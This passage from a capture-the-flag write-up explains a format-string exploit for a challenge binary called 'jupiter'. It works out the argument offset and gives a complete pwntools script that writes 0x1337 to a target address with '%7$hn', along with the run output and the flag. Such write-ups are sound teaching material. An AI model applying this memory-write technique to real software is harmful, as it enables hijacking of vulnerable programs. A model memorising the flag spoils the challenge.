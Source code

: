 ### Q8: Why parameter 7 specifically?

**Answer:** Because that's where our address lands based on byte counting!

```
Bytes 0-15:  Format string and padding
Bytes 16-23: Our address

Since parameters are 8 bytes each and start at byte 0:
- Parameter 5: bytes 0-7
- Parameter 6: bytes 8-15
- Parameter 7: bytes 16-23  ← Our address is here!
```

If we used `%5$hn`, it would try to use bytes 0-7 (the format string itself) as an address - wrong!

---

## Final Exploit

```python
from pwn import *

# Setup
elf = ELF("./jupiter")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch="amd64", os="linux", log_level="debug")

# Connect to challenge
p = remote("chal.sunshinectf.games", 25607)
# p = process(["./jupiter"])  # For local testing
# gdb.attach(p)
# pause()

# Exploit:
# 1. Print 0x1337 (4919) characters
# 2. Write that count to address at parameter 7
# 3. Place 0x404012 at parameter 7's position
payload = f"%{0x1337}c%7$hn".encode()  # Format string (11 bytes)
payload += b"A" * 5                     # Padding (5 bytes)
payload += p64(0x404012)                # Target address (8 bytes)

p.sendline(payload)
p.interactive()

# Flag: sun{F0rmat_str!ngs_4re_sup3r_pOwerFul_r1gh7??}
```

### Running the Exploit

```bash
$ python exploit.py
[+] Opening connection to chal.sunshinectf.games on port 25607
[*] Switching to interactive mode
                                  ... (4919 spaces) ...
sun{F0rmat_str!ngs_4re_sup3r_pOwerFul_r1gh7??}
```

---